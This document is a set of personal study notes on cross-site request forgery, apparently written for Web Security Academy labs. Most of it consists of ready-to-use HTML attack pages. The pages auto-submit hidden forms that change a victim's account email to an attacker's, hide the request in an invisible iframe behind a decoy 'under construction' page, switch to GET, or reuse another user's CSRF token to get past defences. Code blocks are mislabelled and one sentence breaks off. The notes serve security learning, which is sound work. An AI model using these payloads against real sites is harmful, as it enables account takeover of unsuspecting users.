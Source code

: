 # Enumeration
```python
- check for the rules of the web server - SOP, CORS, SameSite Cookie, Referer, Origin.
```


# Craft a malicious request
- when victim user load this html, it will automatically submit the forms that request a POST HTTP method to vulnerable to CSRF web server and they will redirect to that website. Use iframe if you do not want them to redirect.


```html
<html>
	<body>
		<h1>The website is under construction.</h1>
		<form method="POST" action="vulnerable@website.com">
			<input type="hidden" name="email" value="attackermail@gmail.com"/>
		</form>

		<script>
			document.forms[0].submit();
		</script>

	</body>
</html>
```


# Using iframe to avoid redirect
- when a victim visits this website, it will request to the vulnerable website but it will load to the iframe which the display is set to none, they will only see the h1 tag.

```python
<html>
	<body>
		<h1>The website is under construction.</h1>
		<iframe style="display: none" name="csrf_iframe"></iframe>
		<form method="POST" action="https://vulnerable@website.com" target="csrf_iframe">
			<input type="hidden" name="email" value="attackermail@gmail.com"/>
		</form>

		<script>
			document.forms[0].submit();
		</script>

	</body>
</html>
```



# Used other HTTP method
```python
>> check if other HTTP method such as GET request can bypass some CSRF defense
	- craft empty form's tag, but change the method to GET request and put all the data on input type hidden

<html>
	<body>
		<h1>The website is under construction.</h1>
		<form method="get" action="https://0a1f007804a09ca0840cc3c700e60044.web-security-academy.net/my-account/change-email">
                        <input type="hidden" name="email" value="anotheremail@gmail.com"/>
		</form>
		<script>
			document.forms[0].submit();
		</script>

	</body>
</html>

```

# CSRF token not validated
```python
- an application can be misconfigured like checking if it is only set else it would not reject the request rather accept it and bypass that CSRF token.
- craft a malicious request without the CSRF token in input tag
```

# CSRF token is not tied to user's session
```python
- other application find specific token to a pool of tokens which can be bypass by using their token as a valid CSRF token.
- the application always change the CSRF token, so logging in to the website and get your CSRF token which can be used to 


<html>
	<body>
		<h1>The website is under construction.</h1>
		<form method="post" action="https://0abb00d004c9494885862c8000b10080.web-security-academy.net/my-account/change-email">
                        <input type="hidden" name="email" value="attacker@email.net"/>
                        <input type="hidden" name="csrf" value="Aq425nuptr7QypXK1461FdaBOmk1LQNp"/>
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>

```



# 









